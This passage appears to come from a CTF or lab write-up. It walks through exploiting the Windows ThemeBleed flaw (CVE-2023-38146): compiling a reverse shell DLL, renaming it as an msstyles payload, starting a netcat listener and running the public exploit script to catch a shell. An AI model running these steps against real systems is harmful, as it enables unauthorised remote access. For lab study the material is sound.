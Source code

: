     -   Windows 10 VM (my preffered version is setup using [Mandiant Commando script](https://github.com/mandiant/commando-vm))
        -   [Visual Studio](https://visualstudio.microsoft.com/downloads/) +(not Visual Studio Code+)



-  Building Process

    1.  **Open Visual Studio and clone the repo**:
        -   {{< figure src="/ox-hugo/2024-11-04-174350_.png" >}}
        -   {{< figure src="/ox-hugo/2024-11-04-174430_.png" >}}

    2.  **Configure attack parameters**:
        -   Locate `main.cpp`
        -   Set attack IP and port (lines 32/34)
        -   Set "autoReconnect" to `false`
        -   {{< figure src="/ox-hugo/2024-11-04-180155_.png" >}}

    3.  **Prepare for compilation**:
        -   Set to release mode
        -   {{< figure src="/ox-hugo/2024-11-04-180354_.png" >}}

    <!--listend-->

    4.  **Build the solution**:
        -   {{< figure src="/ox-hugo/2024-11-04-180428_.png" >}}
        +Note+: "Building the solution" means compiling the exploit

    <!--listend-->

    5.  **Locate the compiled DLL at**:
        -   `C:\Users\[YourUserName]\source\repos\ThemeBleedReverseShellDLL\x64\Release\ThemeBleeedReverseShell.dll`


#### Executing the Exploit {#executing-the-exploit}

1.  **Clone the main exploit repository**:
    `git clone https://github.com/Jnnshschl/CVE-2023-38146.git`

2.  **Prepare the payload**:

    -   Move `ThemeBleeedReverseShell.dll` to the `tb` folder
    -   Rename it to `Aero.msstyles_vrf_evil.dll`
    -   {{< figure src="/ox-hugo/2024-11-04-181130_.png" >}}

    +Note+: The repository mentions `td` folder but it's actually `tb`

3.  **Start the listener**:
    `rlwrap -cAr nc -nvlp 4711`

4.  **Execute the exploit**:
    `python3 themebleed.py -r [MYAttackMachine] --no-dll`

5.  **Receive the connection**:
    -   {{< figure src="/ox-hugo/2024-11-04-181233_.png" >}}


### Impact Analysis: {#impact-analysis}
